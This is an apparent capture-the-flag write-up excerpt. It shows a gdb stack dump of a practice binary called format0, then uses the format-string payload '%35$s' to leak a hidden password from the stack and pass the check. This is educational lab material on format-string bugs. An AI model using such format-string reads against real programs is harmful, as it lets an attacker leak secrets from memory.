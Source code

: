 ```nasm
[------------------------------------stack-------------------------------------]
0000| 0xbffff620 --> 0xbffff63e --> 0x7025 ('%p')
0004| 0xbffff624 --> 0xbffff63e --> 0x7025 ('%p')
0008| 0xbffff628 --> 0xa ('\n')
0012| 0xbffff62c --> 0x4006a7 (<main+23>:	add    ebx,0x13ad)
0016| 0xbffff630 --> 0xbffff65e --> 0x40 ('@')
0020| 0xbffff634 --> 0x0 
0024| 0xbffff638 --> 0xb7fe5100 (<_dl_lookup_symbol_x+16>:	add    edi,0x19f00)
0028| 0xbffff63c --> 0x7025fc10 
0032| 0xbffff640 --> 0xbfff0000 --> 0x0 
0036| 0xbffff644 --> 0x0 
0040| 0xbffff648 --> 0xc10000 
0044| 0xbffff64c --> 0x0 
0048| 0xbffff650 --> 0xb7fff000 --> 0x23f40 
0052| 0xbffff654 --> 0xb7fff920 --> 0x400000 --> 0x464c457f 
0056| 0xbffff658 --> 0xbffff670 --> 0xffffffff 
0060| 0xbffff65c --> 0x400306 ("__libc_start_main")
0064| 0xbffff660 --> 0x0 
0068| 0xbffff664 --> 0xbffff704 --> 0xf28a634d 
0072| 0xbffff668 --> 0xb7fcb000 --> 0x1b2db0 
0076| 0xbffff66c --> 0xd ('\r')
0080| 0xbffff670 --> 0xffffffff 
0084| 0xbffff674 --> 0xb7fcb000 --> 0x1b2db0 
0088| 0xbffff678 --> 0xb7e24e18 --> 0x2bb6 
0092| 0xbffff67c --> 0xb7fd5858 --> 0xb7e18000 --> 0x464c457f 
0096| 0xbffff680 --> 0xb7fcb000 --> 0x1b2db0 
0100| 0xbffff684 --> 0xbffff764 --> 0xbffff886 ("/home/user/format0")
0104| 0xbffff688 --> 0xb7ffed00 --> 0x0 
0108| 0xbffff68c --> 0x40000 
0112| 0xbffff690 --> 0x0 
0116| 0xbffff694 --> 0x401a54 --> 0x1948 
0120| 0xbffff698 --> 0x1 
0124| 0xbffff69c --> 0x4007bb (<__libc_csu_init+75>:	add    edi,0x1)
0128| 0xbffff6a0 --> 0x41410001 
0132| 0xbffff6a4 ("BBCCDD")
0136| 0xbffff6a8 --> 0x4444 ('DD')
0140| 0xbffff6ac --> 0xbffff6a2 ("AABBCCDD") ; Here is the pointer
0144| 0xbffff6b0 --> 0xbffff6d0 --> 0x1 
0148| 0xbffff6b4 --> 0x0 
0152| 0xbffff6b8 --> 0x0 
```

As you can see, the string pointer is at the offset **35**. If we want to read it, we have to enter the following string :

```shell
user@gdb:~$ ./format0
%35$s
AABBCCDD does not have access!

user@gdb:~$ ./format0
AABBCCDD
Good job !
user@gdb:~$ 
```

